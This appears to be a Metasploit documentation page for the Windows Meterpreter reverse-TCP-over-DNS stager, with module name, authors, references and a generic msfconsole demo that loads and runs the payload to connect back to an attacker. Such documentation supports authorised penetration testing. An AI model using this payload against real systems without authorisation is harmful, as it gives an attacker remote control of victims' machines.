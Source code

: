 ## Windows Meterpreter (Reflective Injection), Reverse TCP Stager (DNS)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged). Connect back to the attacker


## Module Name
payload/windows/meterpreter/reverse_tcp_dns

## Authors
* skape
* sf
* OJ Reeves
* hdm


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter/reverse_tcp_dns
msf payload(reverse_tcp_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_dns) > set TARGET <target-id>
msf payload(reverse_tcp_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_dns) > run
```
    
    